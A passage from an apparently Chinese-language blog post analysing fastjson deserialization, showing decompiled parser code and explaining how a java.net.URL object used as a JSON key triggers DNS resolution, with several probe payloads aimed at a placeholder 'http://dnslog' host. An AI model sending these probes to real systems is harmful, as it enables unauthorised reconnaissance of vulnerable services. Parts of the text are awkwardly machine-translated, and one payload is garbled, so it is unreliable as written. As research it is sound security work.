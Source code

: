                     lexer.nextToken();
                    // 17 ---> :
                    parser.accept(17);
                    // 之后解析为对象,也就是val字段对应的值
                    objVal = parser.parse();
                    // 13 ---> }
                    parser.accept(13);
                } 
                ....
               // 后续的流程和方法一一样了，进行类型判断
               strVal = (String)objVal;
               if (strVal != null && strVal.length() != 0) {
                if (clazz == UUID.class) {
                    ...
                } else if (clazz == URI.class) {
                    ...
                } else if (clazz == URL.class) {
                    ...
                } else if (clazz != InetAddress.class && clazz != Inet4Address.class && clazz != Inet6Address.class) {
                    ...
                } else {
                    try {
                    // 域名解析
                        return InetAddress.getByName(strVal);
                    } catch (UnknownHostException var11) {
                        throw new JSONException("deserialize inet adress error", var11);
                    }
                }
            } 
    }

两段合起来就得到了最终的有效载荷。

方法三：利用java.net.URL
------------------------

`java.net.URL`类也在`IdentityHashMap`中，和上面一样无视`checkAutoType`检查。

    {{“ @type”：“ java.net.URL”，“ val”：“ http：// dnslog”}：“ x”}

来源于`@retanoj`状语从句：`@threedr3am`两位师傅的启发，其原理和ysoserial的中`URLDNS`这个小工具的原理一样。

**简单来说就是向HashMap压入一个键值对时，HashMap需要获取键对象的哈希码。当键对象是一个URL对象时，在获取它的**`hashcode`**期间会调用**`getHostAddress`**方法获取主机，这个过程域名会被解析。**

2 1.png

URL对象hashcode的获取过程

fastjson解析上述payload时，先反序列化出`URL(http://dnslog)`对象，然后将`{URL(http://dnslog):"x"}`解析为一个HashMap，域名被解析。

`@retanoj`在[问题](https://github.com/alibaba/fastjson/issues/3077)中还构造了好几个畸形的有效载荷，虽然原理都是一样的，但还是挺有意思的，意识到了师傅对fastjson词法分析器透彻的理解。

    {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
    Set[{"@type":"java.net.URL","val":"http://dnslog"}]
    Set[{"@type":"java.net.URL","val":"http://dnslog"}
    {{"@type":"java.net.URL","val":"http://dnslog"}:0

参考链接
--------

> https://www.adminxe.com/1037.html
